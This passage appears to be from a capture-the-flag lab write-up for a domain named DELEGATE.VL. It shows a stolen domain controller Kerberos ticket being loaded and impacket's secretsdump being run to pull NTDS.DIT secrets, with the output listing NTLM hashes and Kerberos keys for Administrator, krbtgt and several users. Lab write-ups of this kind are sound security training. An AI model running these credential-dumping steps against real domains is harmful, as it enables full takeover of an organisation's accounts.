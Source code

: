 ![alt text](../assets/images/Screenshot_2025-03-06_08_29_53.png)


    ➜  krbrelayx git:(master) ✗ export KRB5CCNAME=DC1\$@DELEGATE.VL_krbtgt@DELEGATE.VL.ccache 
    ➜  krbrelayx git:(master) ✗ klist
    Ticket cache: FILE:DC1$@DELEGATE.VL_krbtgt@DELEGATE.VL.ccache
    Default principal: DC1$@DELEGATE.VL

    Valid starting       Expires              Service principal
    03/06/2025 08:28:07  03/06/2025 17:36:03  krbtgt/DELEGATE.VL@DELEGATE.VL
            renew until 03/13/2025 08:36:03

secretsdump

    ➜  krbrelayx git:(master) ✗ python3 /opt/impacket/examples/secretsdump.py -k DC1.delegate.vl
    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

    [-] Policy SPN target name validation might be restricting full DRSUAPI dump. Try -just-dc-user
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:c32198ceab4cc695e65045562aa3ee93:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:54999c1daa89d35fbd2e36d01c4a2cf2:::
    A.Briggs:1104:aad3b435b51404eeaad3b435b51404ee:8e5a0462f96bc85faf20378e243bc4a3:::
    b.Brown:1105:aad3b435b51404eeaad3b435b51404ee:deba71222554122c3634496a0af085a6:::
    R.Cooper:1106:aad3b435b51404eeaad3b435b51404ee:17d5f7ab7fc61d80d1b9d156f815add1:::
    J.Roberts:1107:aad3b435b51404eeaad3b435b51404ee:4ff255c7ff10d86b5b34b47adc62114f:::
    N.Thompson:1108:aad3b435b51404eeaad3b435b51404ee:4b514595c7ad3e2f7bb70e7e61ec1afe:::
    DC1$:1000:aad3b435b51404eeaad3b435b51404ee:3acc26f4a9362373ef31a7bd749beb49:::
    irem$:3101:aad3b435b51404eeaad3b435b51404ee:13b1e64400203ecf38b1fdea2b11a09f:::
    [*] Kerberos keys grabbed
    Administrator:aes256-cts-hmac-sha1-96:f877adcb278c4e178c430440573528db38631785a0afe9281d0dbdd10774848c
    Administrator:aes128-cts-hmac-sha1-96:3a25aca9a80dfe5f03cd03ea2dcccafe
    Administrator:des-cbc-md5:ce257f16ec25e59e
    krbtgt:aes256-cts-hmac-sha1-96:8c4fc32299f7a468f8b359f30ecc2b9df5e55b62bec3c4dcf53db2c47d7a8e93
    krbtgt:aes128-cts-hmac-sha1-96:c2267dd0a5ddfee9ea02da78fed7ce70
    krbtgt:des-cbc-md5:ef491c5b736bd04c
    A.Briggs:aes256-cts-hmac-sha1-96:7692e29d289867634fe2c017c6f0a4853c2f7a103742ee6f3b324ef09f2ba1a1
    A.Briggs:aes128-cts-hmac-sha1-96:bb0b1ab63210e285d836a29468a14b16
    A.Briggs:des-cbc-md5:38da2a92611631d9
    b.Brown:aes256-cts-hmac-sha1-96:446117624e527277f0935310dfa3031e8980abf20cddd4a1231ebf03e64fee8d